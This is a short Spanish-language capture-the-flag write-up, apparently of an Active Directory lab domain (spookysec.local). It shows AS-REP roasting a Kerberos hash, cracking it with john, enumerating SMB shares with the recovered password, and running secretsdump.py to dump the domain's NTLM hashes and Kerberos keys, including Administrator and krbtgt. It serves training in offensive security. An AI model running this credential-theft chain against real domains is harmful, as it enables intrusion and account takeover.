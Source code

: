 # Obteniendo los hashes

$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:4a5b33c57058bb665ed634da21b7ec7e$636ac4d15eb091e195906594a8f25c403d6094c132c3328b2cf9bc21d939566cd087c9875f0e5655d8aee32c106e2625a9d1c82946af7e74fdccef3d420437bd35ed910b3ebaa2c195082535d3712f4f3cec4b66aae8128830208e8eda5b00f03c500d65dd47818a9c8262a53def3d4ee64e83339b7ed2e67b8dc35bd73ac23acf4bd4c22c308564615e26faa19bf7f301cc88dfa4be2824f418143b98a5ed4571ed5eb1691a5be6404b5d7ef78f506b04a7ff26f8d53e59368f7d4343c3674727182965d61c6f34185ba98ead3adf2a2be278c930367b43498cf9bf49e255801ad088aae41b3d93a2862bb74970f12df03b

## Crackeando los hashes

	john  hash.asresproast --wordlist=/home/kali/Documents/passwordlist.txt

	$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:management2005
## Enumerando el smb 
### Listando los archivos compartidos
	
	smbclient -L 10.10.81.156 -U svc-admin%management2005
### Mostrando informacion de los archivos compartidos

	smbclient //10.10.81.156 -u svc-admin -p management2005 -L

### Credencial encontrada

	backup@spookysec.local:backup2517860

## Obteniendo informacion de windows

	secretsdump.py backup@10.10.81.156  

Impacket v0.10.1.dev1+20220606.123812.ac35841f - Copyright 2022 SecureAuth Corporation

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:fc6cad90c72320c0c3b2244cbba7a9a7:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc